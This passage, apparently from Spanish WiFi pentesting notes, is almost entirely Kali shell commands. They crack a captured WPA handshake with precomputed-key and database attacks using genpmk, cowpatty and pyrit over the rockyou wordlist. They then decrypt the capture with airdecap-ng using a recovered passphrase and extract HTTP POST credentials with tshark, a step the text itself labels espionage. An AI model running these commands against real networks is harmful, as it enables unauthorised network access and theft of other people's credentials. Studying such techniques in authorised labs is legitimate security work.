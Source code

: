 ```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ genpmk -f  /usr/share/wordlists/rockyou.txt -s Testing -d dic.genpmk

# Con Cowpatty
┌─[root@kali]─[/Documents/WiFi/]
└──╼ cowpatty -d dic.genpmk -r Captura-01.cap -s Testing

# Con Pyrit
┌─[root@kali]─[/Documents/WiFi/]
└──╼ pyrit -e Testing -i dic.genpmk -r Captura-01.cap attack_cowpatty
```

## Cracking con Pyrit a través de ataque por base de datos

Este ataque de fuerza bruta es el más rápido de todos.

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ pyrit -i /usr/share/wordlists/rockyou.txt import_passwords

┌─[root@kali]─[/Documents/WiFi/]
└──╼ pyrit -e Testing create_essid

┌─[root@kali]─[/Documents/WiFi/]
└──╼ pyrit batch #Este proceso se va a demorar bastante.

┌─[root@kali]─[/Documents/WiFi/]
└──╼ pyrit -r Captura-01.cap atack_db
```

## Desencriptado de paquetes con Airdecap (espionaje)

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ airdecap-ng -e Testing -p Hello123 Captura-01.cap

┌─[root@kali]─[/Documents/WiFi/]
└──╼ tshark -r Captura-01-dec.cap -Y "http" 2>/dev/null

┌─[root@kali]─[/Documents/WiFi/]
└──╼ tshark -r Captura-01-dec.cap -Y "dns" 2>/dev/null

┌─[root@kali]─[/Documents/WiFi/]
└──╼ tshark -r Captura-01-dec.cap -Y "http.request.method==POST" 2>/dev/null

#Para ver el contenido

┌─[root@kali]─[/Documents/WiFi/]
└──╼ tshark -r Captura-01-dec.cap -Y "http.request.method==POST" -Tjson 2>/dev/null

#Otra forma una vez encontramos credenciales

┌─[root@kali]─[/Documents/WiFi/]
└──╼ tshark -r Captura-01-dec.cap -Y "http.request.method==POST" -Tfields -e http.file_data 2>/dev/null
```
